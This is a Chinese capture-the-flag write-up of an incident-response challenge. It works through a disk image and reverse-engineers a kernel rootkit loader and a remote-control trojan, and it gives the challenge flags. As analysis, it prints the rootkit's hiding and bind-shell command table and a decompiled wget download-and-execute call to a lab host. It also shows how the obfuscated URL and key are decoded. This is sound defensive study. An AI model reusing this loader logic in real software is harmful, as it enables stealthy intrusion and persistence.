# 第二届“长城杯”半决赛ISW赛后复现-详细-先知社区

> **来源**: https://xz.aliyun.com/news/17885  
> **文章ID**: 17885

---

# 题目信息

小路是一名网络安全网管，据反映发现公司主机上有**异常外联信息**，据回忆前段时间**执行**过某些**更新脚本** (**已删除**)，现在需要协助小路同学进行网络安全应急响应分析，查找木马，进一步分析，寻找攻击源头，获取攻击者主机权限获取 flag 文件。

# 题目1：找出主机上木马回连的主控端服务器IP地址[不定时(3~5分钟)周期性]，并以flag{MD5}形式提交，其中MD5加密目标的原始字符串格式IP:port

给出的镜像文件是.raw磁盘镜像文件，



先使用FTK Imager挂载到本地，



然后使用R-Studio打开



先扫描，**将磁盘删除的文件进行恢复**



双击进入

在ubuntu用户目录下，有一个删除的1.txt



说明曾从http://mirror.unknownrepo.net/f/l/a/g/system\_upgrade 下载文件并储存为 /tmp/.system\_upgrade

根据题目描述，是由于执行了更新脚本导致的异常外联信息，system\_upgrade正好是系统更新的意思，去找找这个文件，看看有没有什么线索。



在/tmp目录下没有文件.system\_upgrade，继续寻找其他线索

在用户目录下存在有.viminfo 缓存文件



这个文件的内容可以暂时理解为对于vim编辑器的一个缓存，下次打开对应文件时，会跳转到上次编辑的位置

这里应该是编辑了system-upgrade.service文件，正好也含有系统更新的意思，去找找这个文件

到对应的文件夹/etc/systemd/system找到了这个文件



文件内容



> 文件内容的大致含义是在系统启动至多用户模式后，将自定义内核模块system-upgrade.ko 插入内核的 systemd 服务单元。
>
> .ko 文件是 Linux 内核模块（Kernel Object）的二进制文件，承载各种内核扩展功能，使得系统在无需重启的情况下灵活加载或卸载驱动和服务逻辑。

system-upgrade.ko也含有系统更新的意思，是一个比较可疑的文件，继续去寻找这个文件

到/lib/modules/5.4.0-84-generic/kernel/drivers/system这个目录下寻找，

很巧妙，找到了这个文件



由于是二进制文件，无法查看具体的信息，那么将其下载到本地，IDA逆向分析一下子。

右键文件选择恢复



选择合适的文件夹，ok



64位



拖入对应的IDA进行分析

进入后，shift+F12先查看一下有没有可疑的字符串

发现一些可疑的东西



wget安装命令，system-upgrade是不是在磁盘文件里面发现好多回了，且字符形式也一模一样，最重要的是发现了一个ip地址，第一题的目的就是找木马回连的ip和端口，感觉离真相不远了

双击ip字符串，开始跟踪查找



看不懂这段代码到底在执行什么，但是根据直觉，木马回连的ip应该就是192.168.57.203,，至于端口，从4948、1337、8080挨个尝试

最终也是尝试成功，正确的是192.168.57.203:4948，转换为md5，使用CyberChef或者命令

windwos系统先将需要转换的字符串写入一个txt文件，然后使用命令

> certutil -hashfile 1.txt md5

即可得到字符串的md5值

linux系统使用命令

> echo -n "192.168.57.203:4948" | md5sum

即可得到字符串的md5值

flag{59110f555b5e5cd0a8713a447b082d63}

> 这里简单分析一下上面那段看不懂的代码是啥，不想看的朋友可以直接看后面的题目。
>
> 先简单点了点函数，看不懂一点点。某个大佬的文章中提了几句
>
> 可以看得出来使用了检测规避技术，然后函数传参了 IP 地址和端口
>
> system-upgrade 位于 /lib/modules/5.4.0-84-generic/kernel/drivers/system/system-upgrade.ko
>
> systemd-agentd 位于 /lib/systemd/systemd-agentd
>
> 192.168.57.203:4948
>
> 至于这么看出来的，咱也看不出来，用AI分析分析吧
>
> 详细分析
>
> **初始化****&** **挂钩函数安装**
>
> \_fentry\_\_();
>
> Cr8YeLCPy17g2Kqp();
>
> vH5iRF4rBcsPSxfk();
>
> QODpPLbPPLRtk397();
>
> ZRzAVZZOp3EIPba6(&unk\_2720);
>
> 这些调用一般用于设置函数入口探针（fentry）、注册各种系统调用及内核接口的钩子（hook），以及初始化全局或内核数据结构（如 unk\_2720）
>
> **注册控制命令**
>
> XnzbhEaPnydxn1rY("HIDEME", ZRzAVZZOp3EIPba6);
>
> XnzbhEaPnydxn1rY("SHOWME", bbiVzCN8llELLp6o);
>
> XnzbhEaPnydxn1rY("HIDE\_DENT", Fmk3MFLuFCEiNxgN);
>
> XnzbhEaPnydxn1rY("SHOW\_HIDDEN\_DENT", PiCa2rGqFOVs1eiB);
>
> XnzbhEaPnydxn1rY("HIDE\_TCP\_PORT", IDZO4NzptW8GaHzj);
>
> XnzbhEaPnydxn1rY("SHOW\_HIDDEN\_TCP\_PORT", ol186ifyeUPhXKNl);
>
> XnzbhEaPnydxn1rY("HIDE\_TCP\_IP", H7XMCPIhJup38DuP);
>
> XnzbhEaPnydxn1rY("SHOW\_HIDDEN\_TCP\_IP", yiA2lg0kW8v2vOp0);
>
> XnzbhEaPnydxn1rY("HIDE\_UDP\_PORT", cuC5zWc4iL4kPgAn);
>
> XnzbhEaPnydxn1rY("SHOW\_HIDDEN\_UDP\_PORT", LC22j9OZfANw81M7);
>
> XnzbhEaPnydxn1rY("HIDE\_UDP\_IP", YlfqRhWLKVqMFbxN);
>
> XnzbhEaPnydxn1rY("SHOW\_HIDDEN\_UDP\_IP", XBKrkXaghfenXrk6);
>
> XnzbhEaPnydxn1rY("BINDSHELL\_CREATE", NVEKPqx35kIvfacV);
>
> XnzbhEaPnydxn1rY("RUN\_CUSTOM\_BASH", T34Z94ahif0BXQRk);
>
> 每一行都是把一个文本命令（比如"HIDE\_TCP\_PORT"）和对应的处理函数（如 IDZO4NzptW8GaHzj）绑定到一起，方便后续通过用户态或网络命令去动态控制 rootkit 的各种功能：
>
> HIDE/SHOW DENT：隐藏/显示目录项（文件或目录）
>
> HIDE/SHOW TCP/UDP PORT/IP：隐藏/显示网络端口或 IP
>
> BINDSHELL\_CREATE：在机器上创建一个绑定 shell
>
> RUN\_CUSTOM\_BASH：执行自定义的 shell 命令
>
> **设置默认隐藏目标**
>
> Fmk3MFLuFCEiNxgN("systemd-agentd");
>
> Fmk3MFLuFCEiNxgN("system-upgrade");
>
> Fmk3MFLuFCEiNxgN("system\_upgrade");
>
> 调用隐藏目录/进程的函数，把名为 systemd-agentd、system-upgrade、system\_upgrade 的进程或模块都设置成“隐藏”——这正是之前在 .viminfo 里看到的那些模块名称。
>
> 接着是隐藏网络端口和IP：
>
> IDZO4NzptW8GaHzj("4948"); // 隐藏 TCP 端口 4948
>
> IDZO4NzptW8GaHzj("1337"); // 隐藏 TCP 端口 1337
>
> H7XMCPIhJup38DuP("192.168.57.203"); // 隐藏 TCP IP 192.168.57.203
>
> H7XMCPIhJup38DuP("127.0.0.1"); // 隐藏 TCP IP 127.0.0.1
>
> cuC5zWc4iL4kPgAn("8080"); // 隐藏 UDP 端口 8080
>
> **返回值**
>
> return YlfqRhWLKVqMFbxN("127.0.0.1");
>
> 隐藏了 UDP IP 127.0.0.1 并把这个操作的返回值作为整个函数的返回值
>
> ​
>
> **整体作用**
>
> 初始化并植入钩子：篡改或拦截内核的文件系统、网络栈、进程管理等接口。
>
> 提供命令接口：通过一组可控命令（HIDEME/SHOWME/HIDE\_TCP\_PORT/…）来动态开关各种隐藏/显示功能。
>
> 默认隐藏：一加载就把自己（或配套进程／模块）以及指定的端口和 IP 都隐藏起来，防止被系统管理员或安全工具发现。
>
> 典型 rootkit 行为：目录项隐藏、进程隐藏、端口/IP 隐藏、绑定 shell、执行任意 shell。
>
> ​
>
> 总结：这是一个内核级rootkit 的启动例程，用来在系统中悄无声息地插入一系列后门和隐身功能。

# 题目2：找出主机上驻留的远控木马文件本体，计算该文件的MD5, 结果提交形式： flag{md5}

根据第一题的分析，system-upgrade.ko调用并隐藏了一些进程，分别是systemd-agentd、system-upgrade、system\_upgrade，并且结合第三题的内容，主机上还有一个加载远控木马的持久化程序，且AI分析system-upgrade.ko一般是用来插入木马的，那么system-upgrade.ko应该就是木马加载器了，而调用并隐藏的进程systemd-agentd、system-upgrade、system\_upgrade里面，应该存在真正的木马文件本体。

继续IDA分析

找到一个叫做download\_and\_execute的函数

进入分析

分析一下程序的作用和运行逻辑



分析一下程序的作用和运行逻辑

可以直观的看到wget、call、chmod、run，没错，就按照字面意思分析，wget是下载，call是访问，chmod是给予权限，run是运行

上面的if大红框会判断systemd-agentd文件在本地/lib/systemd/systemd-agentd**是否存在**（argv\_73256），



**存在**就直接走下面的小红框**else**，小红框里面先给予/lib/systemd/systemd-agentd执行权限（chmod\_argv\_\*\*\*\*\*），然后直接运行/lib/systemd/systemd-agentd（run\_argv\_\*\*\*\*\*）



上面的汇编代码等价于/bin/chmod +x /lib/systemd/systemd-agentd，以确保本地已经存在的的二进制文件有可执行权限



上面的汇编代码等价于/lib/systemd/systemd-agentd -c 192.168.57.203，若文件存在且已经 chmod +x，就用它启动一个客户端／agent，连接到 192.168.57.203

若/lib/systemd/systemd-agentd文件本地**不存在**，则进入if大红框，进入黄色框的while循环，

call\_usermodehelper(v9[0], v9, envp\_73276, 2LL);这个call代码等价于

> call\_usermodehelper("/usr/bin/wget",
>
> [ "/usr/bin/wget", "-O", "/tmp/systemd-agentd",
>
> "--no-check-certificate",
>
> "https://192.168.57.207/wp-content/uploads/2025/02/agent" ],
>
> env);

即远程从192.168.57.207下载了一个文件到本地/tmp/systemd-agentd，也就是systemd-agentd文件

问题，哪里来的URL?



红框里面的内容

```
v2 = kmem_cache_alloc_trace(...);   // 分配一个可写缓冲区 
v3=v2
*(_QWORD *)v2 = 0x30303B7471757569LL;   //前 8 字节
v4 = v2 + 55;
strcpy(v2 + 8, "2:3/279/68/3180xq.dpoufou0vqmpbet031360130bhfou");   //复制之后一共正好55 字节（不含末尾 \0）
do
    --*v2++;      // 对 v2 指向的每个字节做 “-1” 操作，然后指针 +1，即先 *v2 = *v2 - 1；然后 v2 = v2 + 1
while ( v4 != v2 );
v3[55] = 0;    // 手动在末尾加上 '\0'
```

偏移量为1的凯撒加密

解密一下

```
c = "iuuqt;002:3/279/68/3180xq.dpoufou0vqmpbet031360130bhfou"
for i in c:
    print(chr(ord(i)-1),end='')
# https://192.168.57.207/wp-content/uploads/2025/02/agent
```

看到解密之后就是URL

> 还有一个小知识点，
>
> \*(\_QWORD\*)v2 = 0x30303B7471757569LL;整数赋值操作，写入一个64 bit 数值，CPU 按 小端序 把它拆成 8 个字节依次存放，即实际存储数值的顺序是从后往前，即69、75、75、71、74、3B、30、30
>
> strcpy 是逐字节按“正序”拷贝字符,把源字符串从第一个字符 '2' 到最后一个 'u' 按顺序（地址从低到高）写入目标地址,不受端序影响

黄框下载了远程文件到本地的/tmp/systemd-agentd，蓝框判断/tmp/systemd-agentd是否存在，若存在，进入绿框，判断文件是否为空，文件非空，则退出循环；若篮筐判断/tmp/systemd-agentd不存在，即下载失败，则进行循环下载，直到下载成功，进入绿框。最后退出循环，即文件下载成功，则先给予/tmp/systemd-agentd执行权限（chmod\_argv\_\*\*\*\*\*），然后直接运行/tmp/systemd-agentd（run\_argv\_\*\*\*\*\*）

到了这里，也就明白了systemd-agentd即为主机上驻留的远控木马文件本体，

在/lib/systemd/systemd-agentd和/tmp/systemd-agentd磁盘里面找一下，最终在/lib/systemd/systemd-agentd



找到，即木马文件刚开始本地就有了。

下面将该文件下载到本地，获得文件的md5值即可

windows命令

> certutil -hashfile systemd-agentd MD5

flag{bccad26b665ca175cd02aca2903d8b1e}

# 题目3：找出主机上加载远控木马的持久化程序（下载者），其功能为下载并执行远控木马，计算该文件的MD5, 结果提交形式：flag{MD5}

根据第一题和第二题的分析，应该很清晰了，第一题找到的system-upgrade.ko即为木马加载器，第二题找到的systemd-agentd为木马本体，那么**加载远控木马的持久化程序（下载者），其功能为下载并执行远控木马**的文件就是system-upgrade.ko了

运行windows命令

> certutil -hashfile system-upgrade.ko MD5

得到flag{78edba7cbd107eb6e3d2f90f5eca734e}

# 题目4：查找题目3中持久化程序（下载者）的植入痕迹，计算持久化程序植入时的原始名称MD5（仅计算文件名称字符串MD5），并提交对应flag{MD5}

根据题目3的system-upgrade.ko的植入痕迹，题目1有一个1.txt文件，内容是



这是下载了一个文件到本地/tmp/.system\_upgrade并给与了执行权限，但是在/tmp目录下并没有找到这个文件，但是题目说是**持久化程序植入时的原始名称**，那么可能是这个文件下载后被移动到了其他的目录并修改了文件名，目前只能是这样推测了，至于真实的状况是什么也无法得知。那么计算字符串.system\_upgrade的MD5值即可

flag{9729aaace6c83b11b17b6bc3b340d00b}

# 题目5：分析题目 2 中找到的远控木马，获取木马通信加密密钥, 结果提交形式：flag{通信加密密钥}

题目2得到的远控木马是systemd-agentd，下载到本地，进行逆向IDA分析

先查看字符串



看到一个比较可以的exe路径，点击看看



有本地ip地址，没有思路，看了大佬的wp，说unk\_4beffd是密文，那么从off\_6eb168跟踪过去



继续跟踪sub\_405ec9



反汇编后是一个对unk\_4beffd的数据进行异或编码的代码

编写脚本进行解码

```
c = [0x3D, 1, 0x20, 0x3A, 0x36, 0x58, 0x3a, 0x36, 0x1d, 1, 0x5a, 0x36, 0x3a, 0x5a, 0xa, 0x3b, 0x5a, 0x1d, 0x36, 0xf, 5, 0x29, 0xe]
for i in c:
    print(chr(i^0x69),end='')
# ThIS_1S_th3_S3cR3t_fl@g
```

得到flag{ThIS\_1S\_th3\_S3cR3t\_fl@g}

代码逻辑看不懂，unk\_4beffd为什么是密文也看不懂，还得学啊！

# 题目6：分析题目 3 中持久化程序（下载者），找到攻击者分发远控木马使用的服务器，并获取该服务器权限，找到 flag，结果提交形式：flag{xxxx}

没有远程服务器，无法复现

# 题目7：获取题目 2 中找到的远控木马的主控端服务器权限，查找 flag 文件，结果提交形式：flag{xxxx}

没有远程服务器，无法复现

​

参考文章

https://tryhackmyoffsecbox.github.io/Target-Machines-WriteUp/blog/2025CCB&CISCN-Semis-ISW/#1

https://xz.aliyun.com/news/17305

https://47.93.221.40/?post=117

https://blog.csdn.net/2301\_79355407/article/details/146363958
